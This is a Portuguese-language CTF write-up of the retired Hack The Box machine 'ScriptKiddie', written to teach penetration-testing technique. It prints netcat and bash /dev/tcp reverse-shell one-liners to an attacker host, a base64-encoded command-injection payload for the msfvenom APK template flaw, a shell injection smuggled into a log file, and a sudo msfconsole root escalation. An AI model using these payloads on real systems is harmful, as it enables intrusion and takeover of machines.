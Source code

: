 ```yaml
---
title: "Walktrough: HTB ScriptKiddie"
namespace: htb-scriptkiddie
language: pt-BR
category: Walkthrough
tags:
    - HackTheBox
    - HTB Easy
    - HTB Linux
date: 2021-06-05 16:00:00
header:
    teaser: https://i.imgur.com/Egv2O1k.png
    og_image: https://i.imgur.com/Egv2O1k.png
redirect_from: /writeup/2021/06/htb-scriptkiddie
---
```


Olá pessoal!

A máquina desta semana será **ScriptKiddie**, outra máquina Linux classificada como fácil do [Hack The Box](https://www.hackthebox.eu), criada por [0xdf](https://app.hackthebox.eu/users/4935).<!--more-->

:information_source: **Info**: Write-ups para máquinas do Hack The Box são postados assim que as respectivas máquinas são aposentadas
{: .notice--info}

![HTB ScriptKiddie](https://i.imgur.com/Igno8wu.png){: .align-center}

## Enumeração

Como de costume, iniciado enumeração com um scan rápido do `nmap` para verificar os serviços publicados nesta máquina.

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.226                                                                   

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-24 14:05 -03
Nmap scan report for 10.10.10.226
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.94 seconds
```

### 5000/TCP - Serviço HTTP

Ao acessar a página notado algumas ferramentas a serem utilizadas por algum script kiddie como executar um scan utilizando o `nmap`, criar um payload no `msfvenom` e buscar por exploits utilizando o `searchsploit`.

Tentei diversas formas de injeção de código neste formulário, inclusive tentando algo automatizado como por exemplo a ferramenta [commixproject/commix](https://github.com/commixproject/commix) que encontrei no Github, porém sem sucesso desta vez.

Buscando por vulnerabilidades nas ferramentas utilizadas pela página (`nmap`, `msfvenom`, `searchsploit`), acabei encontrando uma relacionada ao `msfvenom`, conforme abaixo:

```bash
$ searchsploit msfvenom
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection | multiple/local/49491.py
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Aceso inicial e User flag

Alterado arquivo python com o payload desejado `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f`, encontrei alguns erros durante a execução do binário `keytool`, uma vez que este tenta assinar um arquivo APK com o payload no Common Name mas, uma vez que existia um caracter `+` no conteúdo codificado em base64 na primeira iteração, precisei modificá-lo para codificá-lo novamente, gerando um payload desta vez com sucesso a ser enviado na ferramenta e utilizado na exploração da vulnerabilidade no portal:

```python
# Change me
payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
if '+' in payload_b64:
    payload_b64 = b64encode(payload_b64.encode()).decode()
    decode = '| base64 -d | base64 -d'
else:
    decode = '| base64 -d'

dname = f"CN='|echo -n {payload_b64} {decode} | sh #"
```

Abaixo podemos ver o output da criação do payload gerado, no caso o arquivo `evil.apk`

```bash
$ python3 49491.py                                                                                                               
[+] Manufacturing evil apkfile
Payload: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
-dname: CN='|echo -n Y20wZ0wzUnRjQzltTzIxclptbG1ieUF2ZEcxd0wyWTdZMkYwSUM5MGJYQXZabnd2WW1sdUwzTm9JQzFwSURJK0pqRjhibU1nTVRBdU1UQXVNVFF1TVRNMklEUTBORE1nUGk5MGJYQXZaZz09 | base64 -d | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning:
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmpt7qr4ner/evil.apk
Do: msfvenom -x /tmp/tmpt7qr4ner/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

Após gerado o arquivo APK contendo o payload, executado um request no portal com os dados sugeridos no final da execução do script anterior, apontando para o LHOST 127.0.0.1 e selecionando o tipo de payload android, que deverá ser traduzido para o payload `android/meterpreter/reverse_tcp`.

![Submiting the evil payload](https://i.imgur.com/Nvcj4BA.png){: .align-center}

Após clicar no botão **Generate**, um shell reverso foi retornado no listener inicializado previamente conforme especificado durante a criação do payload.

![reverse shell returned](https://i.imgur.com/llt85mf.png){: .align-center}

Nesta mesma sessão obtida, com as credenciais em que o aplicativo se encontrava em execução, no caso o usuário `kid`, foi possível obter a flag de usuário.

```bash
kid@scriptkiddie:~$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
kid@scriptkiddie:~$ cat /home/kid/user.txt
<redacted>
```

## Root flag

Depois de executar o `linenum.sh`, notado que existe outro usuário na máquina, `pwn`, e que tínhamos direito de leitura em seu perfil de diretório, o qual continha um arquivo chamado `scanloosers.sh` com o seguinte conteúdo:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Uma vez que este script lê o conteúdo de um arquivo localizado no perfil do usuário `kid` (`/home/kid/logs/hackers`), editado seu conteúdo com o valor abaixo, de modo que fosse possível injetar o código necessário para a obtenção de um novo shell reverso com a conta `pwn`, que aparentemente executaria este script de forma recorrente.

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' #" > ~/logs/hackers
```

Após definir o novo listener e alterar o arquivo `hackers`, um novo shell reverso foi retornado, desta vez com a conta `pwn` :smile:

Enumerando novamente a máquina, desta vez a partir da conta deste novo usuário utilizando o `linpeas.sh`, notei que este user possuía direitos de execução do `msfconsole` de modo privilegiado.

```plaintext
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Ao instanciar a console utilizando o `sudo`, pude executar comandos normalmente utilizando o privilégio de `root`, podendo assim ler o arquivo `/root/root.txt` e obter a flag final desta máquina

```bash
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q
msf6 > id
[*] exec: id

uid=0(root) gid=0(root) groups=0(root)
msf6 > cat /root/root.txt
[*] exec: cat /root/root.txt

<redacted>
msf6 >
```

Espero que tenham gostado!

Nos vemos no próximo post :smiley:
